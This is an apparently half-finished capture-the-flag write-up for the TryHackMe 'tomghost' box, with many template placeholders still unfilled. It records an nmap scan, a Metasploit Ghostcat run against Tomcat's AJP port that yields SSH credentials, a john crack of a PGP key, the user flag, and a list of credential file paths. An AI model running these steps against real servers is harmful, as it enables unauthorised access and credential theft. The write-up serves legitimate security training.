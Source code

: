 ```yaml
---
type: {notes/writeup}
tags: [{PLATFORM NAME/CTF NAME}, {box/challenge}, {linux/win}, {easy/medium/hard}, {services}, {cve-number}, {tooling}, {techniques}]
reference: {URL}
category: {blackbox/web/rev-engineering/rooting/coding/hardware/blockchain/misc/steg/etc}
title: "{BOX NAME}"
difficulty: {easy, medium, hard}
user-voted: {easy, medium, hard}
date: {YYYY-MM-DD}
author: {AUTHOR NAME}
contact: {AUTHOR CONTACT}
---
```


# tomghost

Target IP = http://10.10.138.176
Tun0 IP = 10.6.15.244

---

## Information Gathering

### Open Ports & Running Services

```sh
nmap -sC -sV 10.10.138.176 -v
```

**OS:** {Linux/Win}

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Exploitation

https://www.exploit-db.com/exploits/49039
found this exploit on exploit-db related to the apache tomcat version in question

### {Step1}

Tooling: Metasploit
Description: extract credentials

```sh
msfconsole
search ghostcat 
options 
set rhost 
run
```

skyfuck:8730281lkjlkjdqlksalks
These are the ssh credentials I obtained from the metasploit script

---

### {Step2}

Tooling: John/gpg2john
Description: crack located secret pgp key 

```sh
gpg2john key.asc > hash
john -wordlist=/usr/share/wordlists/rockyou.txt hash
```

these are the credentials aquired by john 
alexandru        (tryhackme) 

---

> [!USER FLAG]
> {USER FLAG}

{SCREENSHOT}

---


### {Step#3}

Tooling: browsing shell
Description: find user.txt flag

```sh
cd ../
ls
cd merlin
ls
cat user.txt
```

THM{GhostCat_1s_so_cr4sy}
flag obtained from the user.txt file


---

### {Step#4}

Tooling: gain access to merlin
Description: {GOALS}

```sh
{COMMAND}

```
/usr/share/dns/root.key
/usr/share/man/man7/credentials.7.gz

---

> [!ROOT FLAG]  
> {ROOT FLAG}  

{SCREENSHOT}

---

## SUCCESS

---

### Conclusion

{SCREENSHOT FINAL SCREEN}

---

## TODO

[ ] Share on Twitter  
[ ] Revise notes + Links to Notebook  
[ ] Export to HTML  
[ ] Publish on Medium  
[ ] Convert to PDF  
[ ] Push on GitHub  